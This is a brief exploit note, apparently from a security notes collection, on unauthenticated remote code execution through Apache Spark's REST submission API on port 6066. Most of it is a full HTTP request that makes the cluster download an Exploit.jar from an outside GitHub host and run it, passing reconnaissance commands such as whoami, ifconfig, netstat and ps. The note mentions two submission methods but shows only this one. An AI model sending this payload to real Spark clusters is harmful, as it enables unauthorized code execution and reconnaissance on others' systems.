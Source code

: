 The vulnerability is that an unauthorized user can submit an application to the management node, which is actually malicious code.

There are two ways to submit:

### **利用REST API**

payload

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

![image-20220516154805960](../../.gitbook/assets/image-20220516154805960.png)
